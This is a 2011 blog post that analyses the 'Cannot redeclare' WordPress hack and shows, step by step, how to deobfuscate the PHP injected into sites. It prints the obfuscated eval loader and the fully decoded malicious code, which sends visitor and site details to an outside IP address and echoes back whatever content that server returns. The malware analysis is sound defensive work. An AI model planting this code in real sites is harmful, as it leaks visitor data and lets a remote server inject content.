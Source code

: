 ```yaml
---
id: 333
title: Pulling apart a WordPress hack, unobfuscating its code
published: true
publishedDate: 2011-11-19 03:17:00Z
lastModifiedDate: 2011-11-19 03:17:00Z
categories:
- PHP
- Programming
- WordPress

---
```


<p>Over the past few months, there have been a few vulnerabilies in PHP scripts utilised by various WordPress themes. One of the largest hacks was back in August, when a Remote File Inclusion (RFI) vulnerability was <a href="http://wpcandy.com/reports/timthumb-security-vulnerability-discovered">found in TimThumb</a>, a thumbnail generation script used by a lot of WordPress themes. This vulnerability allowed attackers to run <strong>any</strong> PHP code on vulnerable sites. As a result of this, <a href="http://www.theregister.co.uk/2011/11/02/wordpress_mass_compromise/">thousands of sites were hacked</a>.</p>
<p>The most common result of your site being hacked through like this is having some sort of malicious code added to your PHP files. This is often invisible, and people don't notice that their site has malicious code lurking in it until much later. However, sometimes the hacked code does have errors in it. One particular payload is being referred to as the "<a href="http://digwp.com/2011/11/clean-up-cannot-redeclare-hack/">'Cannot redeclare' hack</a>", as it causes an error like the following to appear in your site's footer:</p>
<blockquote>
Fatal error: Cannot redeclare _765258526()
(previously declared in /path/to/www/wp-content/themes/THEME/footer.php(12) 
: eval()'d code:1) in /path/to/www/index.php(18) 
: eval()'d code on line 1
</blockquote>
<p>This particular hack affects all the index.php and footer.php files in your WordPress installation. If you are affected by this hack and open any index.php or footer.php file, you'll see code that starts like this: (<a href="http://pastebin.com/8CCJz45k">the full code is on Pastebin</a>)</p>
<pre class="brush: php">
<?php eval(gzuncompress(base64_decode('eF5Tcffxd3L0CY5Wj...
</pre>

<h3>Decoding the Code</h3>
<p>If you're this far, I assume you're a PHP developer (or at least know the basics of PHP). The malicious code above is actually highly obfuscated PHP code, which means that the actual intent of the code is hidden and it looks like jibberish. The <strong>eval</strong> statement runs arbitrary PHP code, so this line of code will basically base64 decode and then run the big block of code. So... what does the code actually do? Obviously we can't tell with it in its current state. It does take a bit of effort, but this code can be "decoded" relatively easy. Obfuscation is not one-way, it can always be undone. While we can't get back the original variable names, we <em>can</em> see what functions the code is executing.</p>
<p>The first step in decoding this code is replacing all instances of <strong>eval</strong> with <strong>echo</strong>, and then running the script. This should output the code being executed, instead of actually executing it. After doing this, I ended up with something like the following:</p>
<pre class="brush: php">
$GLOBALS['_2143977049_']=Array();
function _765258526($i){$a=Array();return base64_decode($a[$i]);}

eval(gzuncompress(base64_decode('eF5Tcffxd3L0CY5WjzcyMjM...
</pre>
<p>Great, another layer of gzipped/base64'd obfuscation. This technique is common with obfuscated code like this. Multiple layers of obfuscation makes it harder for someone to decode the code, as it requires more effort. I guess the "bad guys" think that people will get tired of trying to unobfuscate the code, and give up, or something like that. When a case like this is encountered, keep replacing <strong>eval</strong> with <strong>echo</strong> and re-running the script, until there's no eval statements left. After decoding all the eval'd code and formatting the resulting code, I <a href="http://pastebin.com/sc0J6FB5">ended up with this</a>. While there's readable code there now, it's still obfuscated.</p>
<p>Once you're this far, if you look closely at the code, you'll notice that a lot of it is encoded using base64. The next step to unobfuscating thid code is to decode all base64-encoded text. That is, find all instances of base64_decode(...) and replace it with the base64 decoded version. Once I did that, I ended up with this:</p>
<pre class="brush: php">
<?php 
$GLOBALS['_226432454_']=Array();
function _1618533527($i)
{
        return '91.196.216.64';
}
 
$ip=_1618533527(0);
$GLOBALS['_1203443956_'] = Array('urlencode');
function _1847265367($i)
{
        $a=Array('http://','/btt.php?ip=','REMOTE_ADDR','&host=','HTTP_HOST','&ua=','HTTP_USER_AGENT','&ref=','HTTP_REFERER');
        return $a[$i];
}
$url = _1847265367(0) .$ip ._1847265367(1) .$_SERVER[_1847265367(2)] ._1847265367(3) .$_SERVER[_1847265367(4)] ._1847265367(5) .$GLOBALS['_1203443956_'][0]($_SERVER[_1847265367(6)]) ._1847265367(7) .$_SERVER[_1847265367(8)];
$GLOBALS['_399629645_']=Array('function_exists', 'curl_init', 'curl_setopt', 'curl_setopt', 'curl_setopt', 'curl_exec', 'curl_close', 'file_get_contents');
function _393632915($i)
{
    return 'curl_version';
}
if ($GLOBALS['_399629645_'][0](_393632915(0))) 
{
        $ch=$GLOBALS['_399629645_'][1]($url);
        $GLOBALS['_399629645_'][2]($ch,CURLOPT_RETURNTRANSFER,true);
        $GLOBALS['_399629645_'][3]($ch,CURLOPT_HEADER,round(0));
        $GLOBALS['_399629645_'][4]($ch,CURLOPT_TIMEOUT,round(0+0.75+0.75+0.75+0.75));
        $re=$GLOBALS['_399629645_'][5]($ch);
        $GLOBALS['_399629645_'][6]($ch);
}
else
{
        $re=$GLOBALS['_399629645_'][7]($url);  
}
echo $re;
?>
</pre>

<p>Now you simply need to go through the code and "execute it in your head". Follow the execution path of the code, and see which variables are used where. There's some usage of arrays to disguise certain variables. What I did was first replaced the two function calls (_1618533527 and _1847265367), and then replaced the array usages (_1203443956_, _399629645_ and _399629645_). Substitute the variables in the places they're used, and the code should be fully obfuscated. Once fully unobfuscated, the code came down to the following:</p>
<pre class="brush: php">
<?php
$url = 'http://91.196.216.64/btt.php?ip=' . $_SERVER['REMOTE_ADDR'] . '&host=' . $_SERVER['HTTP_HOST'] . '&ua=' . urlencode($_SERVER['HTTP_USER_AGENT']) . '&ref=' . $_SERVER['HTTP_REFERER'];

if (function_exists('curl_version'))
{
	$ch = curl_init($url);
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
	curl_setopt($ch, CURLOPT_HEADER, 0);
	curl_setopt($ch, CURLOPT_TIMEOUT, 3);
	$re = curl_exec($ch);
	curl_close($ch);
}
else
{
	$re = file_get_contents($url);
}
echo $re;
</pre>
<p>So, what it's actually doing is sending a request to <strong>91.196.216.64</strong> (a server located in Russia), telling it your site's hostname, your user agent (what browser you're using), and the referer (how you got to the page). This is not directly malicious (this code can't directly do anything bad), which makes it interesting. My theory is that the developer of the worm is using this to create a list of all vulnerable sites, to use them for further hacks in the near future.</p>
<p>So, that's it. Hopefully this post wasn't too boring (and perhaps you even learnt how to unobfuscate code like this). As more people learn how to unobfuscate code like this, I suspect that the "hackers" will keep getting smarter and devising more clever code obfuscation techniques. Until then, finding out what the code actually does is relatively quick and easy, as I've demonstrated here.</p>
<p>Until next time, <br /> &mdash; Daniel</p>
